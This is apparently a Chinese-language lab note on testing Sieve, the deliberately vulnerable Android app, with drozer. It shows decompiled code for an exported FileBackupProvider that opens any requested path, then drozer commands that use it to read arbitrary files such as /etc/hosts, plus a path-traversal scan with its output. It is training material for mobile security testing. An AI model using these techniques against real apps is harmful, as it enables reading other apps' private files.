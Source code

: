 ```yaml
---
title: Test Sieve - content providers exported - File SystemBased
tags: [Android, Drozer]

category: "Tools > Others > Android Related > Drozer > Test Sieve"
---
```


# Test Sieve - content providers exported - File SystemBased
1. 有關於基於File System的Content Provider - 逆向
    在`com.mwr.example.sieve.FileBackupProvider`中可以特別注意onCreate以及ParcelFileDescriptor這個funnction
    ```java
    public class FileBackupProvider extends ContentProvider {
        ...
        @Override // android.content.ContentProvider
        public boolean onCreate() {
            this.sUriMatcher.addURI("com.mwr.example.sieve.FileBackupProvider", "*", DATABASE);
            return false;
        }

        @Override // android.content.ContentProvider
        public ParcelFileDescriptor openFile(Uri uri, String mode) {
            int modeCode;
            if (mode.equals("r")) {
                modeCode = 268435456;
            } else if (mode.equals("rw")) {
                modeCode = 805306368;
            } else if (mode.equals("rwt")) {
                modeCode = 805306368;
            } else {
                Log.w(TAG, "Unrecognised code to open file: " + mode);
                return null;
            }
            try {
                return ParcelFileDescriptor.open(new File(uri.getPath()), modeCode);
            } catch (FileNotFoundException e) {
                Log.e(TAG, "ERROR: unable to open file: " + e.getMessage());
                return null;
            }
        }
    ```
5. 實際讀取文件或是Path Traversal
    為了測試他真的能夠讀取到特定文件，我在手機的Download創了一個secret.txt，不管是哪一個file，都可以正常讀取
    ```bash
    $ echo "this is secret file" > /storage/emulated/0/Download/secret.txt
    dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/storage/emulated/0/Download/secret.txt
    Attempting to run shell module
    this is secret file

    dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
    Attempting to run shell module
    127.0.0.1       localhost
    ::1             ip6-localhost
    ```
    也可以利用drozer自動找尋path traversal的漏洞在哪裡
    ```bash
    dz> run scanner.provider.traversal -a com.mwr.example.sieve
    Attempting to run shell module
    Scanning com.mwr.example.sieve...
    Not Vulnerable:
      content://com.mwr.example.sieve.DBContentProvider/Keys/
      content://com.mwr.example.sieve.DBContentProvider/Passwords
      content://com.mwr.example.sieve.DBContentProvider/Passwords/
      content://com.mwr.example.sieve.DBContentProvider/
      content://com.mwr.example.sieve.DBContentProvider/Keys
      content://com.mwr.example.sieve.DBContentProvider

    Vulnerable Providers:
      content://com.mwr.example.sieve.FileBackupProvider
      content://com.mwr.example.sieve.FileBackupProvider/
    ```